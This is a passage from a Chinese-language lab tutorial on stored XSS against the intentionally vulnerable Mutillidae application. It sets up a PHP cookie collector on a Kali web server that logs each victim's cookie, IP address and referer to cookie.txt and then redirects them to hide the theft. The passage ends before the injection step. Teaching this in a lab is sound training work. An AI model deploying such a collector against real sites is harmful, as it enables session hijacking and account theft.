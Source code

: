 这次我们依然是利用存储型 XSS 来帮助我们获取 cookie。

首先我们通过 `ssh root@kali` 登陆上 kali 的系统中，同时使用 `cd /var/www/html/` 进入到 Apache 的根目录中，这是为了让 mutillidae 能够访问到我们恶意的 php 代码。

然后我们在当前目录中通过 `vim getcookie.php` 来创建我们获取 cookie 的恶意文件，并在文本中输入以下内容：

```php
<?php

$cookie = $_GET['remote_cookie'];
$ip = getenv ('REMOTE_ADDR');
$time=date('Y-m-d g:i:s');
$referer=getenv ('HTTP_REFERER');
$fp = fopen('cookie.txt', 'a');
fwrite($fp,"\n"." IP: " .$ip. " \n"." Date and Time: " .$time. "\n"." Referer: ".$referer."\n"." Cookie: ".$cookie."\n");
fclose($fp);
header("Location: http://192.168.122.102/mutillidae");

?>

```

我们通过 GET 的 cookie 变量来获取 cookie 值并存放在本地的 cookie 变量中，同时获取当前的访问者的 IP 地址，此时此刻的时间，还有访问的来源。

然后通过 fopen() 来创建一个 cookie.txt 的文本文件来存储获取到的值，若是该文本本来就存在就在其内容后面添加，不覆盖原本的内容。接着通过 fwrite() 函数来将我们刚刚所获取到的内容都写进去，最后关闭文件。为了不露出马脚，我们在执行完这一切之后将页面跳转至首页。

编写完成之后我们使用 `:wq` 保存并退出，紧接着我们在当前的文件夹中创建一个 cookie.txt 的文本文件，因为该目录的所属用户是 root，所以在这个 php 程序执行的时候是没有权限创建文件的，所以我们提前创建好，并使用 `chown www-data:www-data cookie.txt` 来改变该文件的所属者：

![show-cookietxt](../imgs/wm_243.png)

最后我们通过 `service apache2 start` 来启动 apache2，这样 php 程序才能够被访问。

做好这一切的准备工作之后，我们便可以开始攻击了。

首先我们进入实验环境：
